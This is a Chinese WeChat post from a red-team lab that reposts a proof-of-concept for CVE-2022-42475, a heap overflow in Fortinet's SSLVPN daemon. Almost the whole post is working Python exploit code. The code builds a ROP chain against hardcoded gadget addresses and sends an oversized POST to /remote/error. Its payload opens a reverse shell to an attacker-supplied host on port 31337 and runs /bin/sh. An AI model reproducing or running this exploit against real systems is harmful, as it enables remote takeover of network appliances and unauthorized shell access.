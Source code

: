 #  Cve-2022-42475 飞塔

[ Khan安全攻防实验室 ](javascript:void\(0\);)

**Khan安全攻防实验室** ![]()

微信号 KhanCJSH

功能介绍 安全不是一个人，我们来自五湖四海。研究方向Web内网渗透，免杀技术，红蓝攻防对抗，CTF。

____

___发表于_

收录于合集

https://github.com/scrt/cve-2022-42475

利用 Fortinet 的 SSLVPN 守护进程中的堆溢出的 POC 代码

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230321090156.png)

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    import socketimport sslfrom pwn import *import timeimport sysimport requests  
    context = ssl.SSLContext()target_host = sys.argv[1]target_port = sys.argv[2]reverse = sys.argv[3]params = sys.argv[4].split(" ")strparams = "["for param in params:    strparams += "'"+param+"',"strparams = strparams[:-1]strparams += "]"  
      
    #binary functionsexecve = p64(0x0042e050)  
    #binary gadgetsmovrdirax = p64(0x00000000019d2196)# : mov rdi, rax ; call r13poprsi = p64(0x000000000042f0f8)# : pop rsi ; ret)poprdx = p64(0x000000000042f4a5)# : pop rdx ; ret)jmprax = p64(0x0000000000433181)#: jmp rax)pops = p64(0x000000000165cfd7)# : pop rdx ; pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret)poprax = p64(0x00000000004359af)# : pop rax ; ret)gadget1 = p64(0x0000000001697e0d); #0x0000000001697e0d : push rbx ; sbb byte ptr [rbx + 0x41], bl ; pop rsp ; pop rbp ; retpoprdi = p64(0x000000000042ed7e)# : pop rdi ; retrax3 = gadget1  
      
      
    #hardcoded value which would probably need to be bruteforced or leakedhardcoded = 0x00007fc5f128e000  
    scbase = p64(hardcoded)rdi = p64(hardcoded + 0xc48)cmd = p64(hardcoded + 0xd38)asdf = hardcoded + 0xd38cmd1 = p64(asdf)cmd2 = p64(asdf+16)arg1 = p64(asdf+48)arg2 = p64(asdf+56)arg3 = p64(asdf+64)  
    ropchain = popraxropchain += execveropchain += poprdiropchain += cmd1ropchain += poprsiropchain += cmd2ropchain += poprdxropchain += p64(0)ropchain += jmpraxropchain += b"/bin/python\x00\x00\x00\x00\x00"ropchain += arg1ropchain += arg2ropchain += arg3ropchain += p64(0)ropchain += b"python\x00\x00"ropchain += b"-c\x00\x00\x00\x00\x00\x00"ropchain += b"""import socket,sys,os\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(('"""+ reverse.encode() + b"""',31337))\n[os.dup2(s.fileno(),x) for x in range(3)]\ni=os.fork()\nif i==0:\n os.execve('/bin/sh', """+strparams.encode()+b""",{})\n\x00\x00"""  
      
      
    try:    with socket.create_connection((target_host, int(target_port,10))) as sock:        with context.wrap_socket(sock, server_hostname=target_host) as ssock:            ssock.settimeout(2)            context.verify_mode = ssl.CERT_NONE            payload = b"A"*173096+rdi+poprdi+cmd+pops+b"A"*40+pops+rax3+b"C"*32+ropchain            tosend = b"POST /remote/error HTTP/1.1\r\nHost: "+target_host +b"\r\nContent-Length: 115964117980\r\n\r\n" + payload            ssock.sendall(tosend)            r = ssock.recv(10024)except Exception as e:    print("Exception occurred :"+ repr(e))

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

